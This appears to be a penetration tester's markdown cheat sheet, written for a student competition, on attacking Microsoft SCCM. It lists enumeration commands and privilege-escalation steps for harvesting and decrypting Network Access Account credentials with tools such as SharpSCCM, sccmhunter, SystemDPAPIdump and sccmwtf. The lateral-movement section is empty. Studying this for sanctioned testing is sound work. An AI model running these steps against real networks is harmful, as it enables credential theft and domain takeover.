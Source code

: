 # SCCM

SCCM (now MECM and previously SMS) is the System Center Configuration Manager.

It is an on-prem AD-integrated solution that aims to handle path management, task automation, remote control, and often is joined with OS deployment (through PXE). 

There is now a cloud native version from MS called Intune

* CPTC has historically made "trendy" vulns a big part of that year's competition (which is why I have a separate document for SCCM).
	* CHECK THE COMMITS,,, I PUSHED BEFORE THE DEADLINE 

**Important Definitions**:

* Site Server: The server that hosts the SCCM site
	* Will always have a 3-letter site code
* Network Access Account (NAA)
	* Used to authenticate to the SCCM server if the machine isn't domain-joined yet
	* This is widely used, but is not required. Enhanced HTTP is a more secure alternative
* Client Push Installation Accounts (Push Account)
* (WSUS) 
* Operating System Deployment (OSD)
	* SCCM can deploy windows onto multiple machines at once through PXE (Network Boot)
	* This happens through a PXE server, which happens through a "wim" file
	* There should be a password requested when the installer is run - but this is often not the case
	* After network boot, the OS image will be transferred via HTTP and installed. The machine will then be domain joined and programs will be configured

## Enumeration

Linux:

* [**PXEThief**](https://github.com/MWR-CyberSec/PXEThief)

* [**sccmhunter**](https://github.com/garrettfoster13/sccmhunter)

`python3 sccmhunter.py find -u <low_priv_user> -p <pass> -d <domain> -dc-ip <dc ip>`
`python3 sccmhunter.py smb -u <low_priv_user> -p <pass> -d <domain> -dc-ip <dc ip>`


`python3 sccmhunter.py show -users`
`python3 sccmhunter.py show -computers`

Windows:

* Go to `Control panel > Configuration Manager`
	* If SCCM is on the domain, you'll see an assigned management point and a site code

`.\SharpSCCM.exe local site-info`


## Privilege Escalation

### Credential Harvesting

**NAA**:
* If you are a local admin on the SCCM client

Linux:
`SystemDPAPIdump.py <domain>/<low_priv_user>:'<password>'@<server>`

Windows:
`.\SharpSCCM get secrets`
`.\SharpSCCM local secrets -m wmi`

* If you are not a local admin, you can make a machine account (all non-privileged users can make 10 machine accounts by default)

`addcomputer.py <domain>/<low_priv_user>:'<password>' -dc-ip <dc ip>`

* [**sccmwtf**](https://github.com/xpn/sccmwtf)
* [**sccm-decrypt**]()
`sccmwtf.py <new machine hostname> <new machine fqdn> <sccm site server hostname> '<domain>\<new machine fqdn>$' '<new machine password>`
`.\sccm-decrypt.exe <CDATA>`
### 


## Lateral Movement

